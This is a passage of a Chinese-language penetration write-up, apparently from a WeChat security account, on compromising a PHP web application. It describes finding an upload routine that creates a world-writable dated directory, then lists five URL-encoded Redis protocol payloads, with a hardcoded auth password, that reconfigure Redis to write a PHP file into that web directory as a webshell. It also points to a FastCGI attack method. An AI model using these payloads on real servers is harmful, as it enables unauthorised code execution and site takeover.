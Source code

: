 *   `Fastcgi`（攻击方法参考`https://bbs.ichunqiu.com/thread-58455-1-1.html`），但是这里不知道是走的`socket`还是`TCP`（默认`socket`），所以没测试
    

### 突破

1.  找到一些`chmod`、`mkdir`要不就是不可控，要不就是目录已经存在   
    最后在`\core\class\upload.php`的`upload`方法里找到使用`chmod`方法会以当前日期新建一个目录并赋予`777`权限   
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05CiaGwlibt98rXzic7odFmY5LDD4u3LtNA4LSg5AqW93aeg4P1Sor1sXoA/640?wx_fmt=png)
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05WQNtUXqlEezNQ59Aw4xsJSEV2zhSuN82icuUSE3f09p2C0ufPMktCIg/640?wx_fmt=png)
    
2.  搜索调用了`upload`类的并可控的点   
    在`\lib\controller\attachment\attachment.php`的公开方法`upload`里调用了`upload`类，并且可控 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05SEybsLAh7c93nh8IyDlfXPT1SfeWcTejZfibSgRalRCkiaglphdicpdYw/640?wx_fmt=png)
    
3.  构造上传 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05HQcBVJqkpMk06IIyVd2J2aQt5dTcFOKicDtMib5zY0JoLPBGsSIeLFwg/640?wx_fmt=png)
    
    上传成功，返回了路径   
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV059lNogYK5J6iaYQGETL6Z0WDdwG9o6p0Fich5VzRptMevYL5X35KhOoRw/640?wx_fmt=png)
    
    成功访问到，那么这个新建的目录`up_files/avatar/2021/0315/`就是`777`权限，可以通过`redis`写入`webshell`了  
    
4.  再用`redis`写`webshell`发现`<`和`>`被实体化了，那么把这两个都再进行一次`url`编码即可
    

*   `*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$14%0d%0ardbcompression%0d%0a$2%0d%0ano%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    
*   `*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$45%0d%0a/www/wwwroot/webgz/up_files/avatar/2021/0315/%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    
*   `*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$5%0d%0a1.php%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    
*   `*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0as%0d%0a$26%0d%0a%0a%0d%0a%3C?php phpinfo();?%3E%0d%0a%0a%0d%0a%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    
*   `*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    

7.  访问   
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05KY9PDkhvYpBqradpO7cQtQo2p3Q5y15icV1jlVIGGKBlQXR0nStNZ2Q/640?wx_fmt=png)成功，把`redis`配置给他改回去都可以了。
    

**新增  
**

**重生信息安全公众号→菜单栏→公检合作→公检法合作**
